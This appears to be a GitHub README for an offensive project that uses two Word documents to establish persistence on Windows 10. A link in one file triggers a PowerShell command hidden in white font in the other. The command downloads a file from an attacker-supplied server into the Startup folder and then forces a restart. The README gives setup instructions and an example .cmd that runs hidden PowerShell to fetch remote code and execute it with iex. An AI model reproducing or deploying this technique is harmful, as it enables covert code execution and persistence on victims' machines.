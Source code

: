# SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in Document1.docx. Scenario: The Document1 commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. A restart command is the last step to execute the .cmd file upon login from user.

# Remember
Document1 is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. Document1 cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill Document1.

Add your IP, Directory, and filename to Document1. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Example .cmd
@echo off

powershell.exe -windowstyle hidden "(iwr https://<YOUR IP>/DIRECTORY/filename -UseBasicParsing) | iex"
